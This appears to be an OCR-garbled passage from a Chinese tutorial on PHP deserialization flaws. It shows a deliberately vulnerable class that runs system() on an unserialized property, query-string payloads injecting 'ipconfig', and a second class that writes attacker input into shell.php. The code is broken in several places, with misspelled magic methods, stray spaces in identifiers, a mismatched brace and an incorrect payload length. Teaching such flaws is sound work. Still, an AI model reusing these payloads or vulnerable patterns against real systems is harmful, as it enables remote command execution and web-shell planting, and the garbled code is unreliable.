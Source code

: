 ```php
<?php
class Test{	//创建一个类
public $str='ichunqiu;';
function _destruct(){
//通过反序列化，调用A对象，因为PHP魔法函数的缘故，他会自动执行destruct()
@system($this->str);}
 //创建一个类的对象，并将其序列化
$test = new Test();
//echo serialize($test);
echo "<pre>";
//反序列化，将得到的序列化字符串反序列化为对象
unserialize($_GET['code']);
?>    
```

```php
//payload
?code=O:4:"Test":1:{s:3:"str";s:8:"ipconfig";}
?code=O:4:"Test":1:{s:3:"str";s:6:"ipconfig";}
```

![image-20240915183355300](./assets/image-20240915183355300.png)

```php
<?php
class Hello{
var $test ='123';
function _wakeup(){
$fp = fopen("shell.php","w+");
fwrite($fp,$this->test);
fclose($fp);}}
$class3 = $ GET['code'];
print _r($class3);
echo "</br>";
$class3 _unser= unserialize($class3);
?>
```
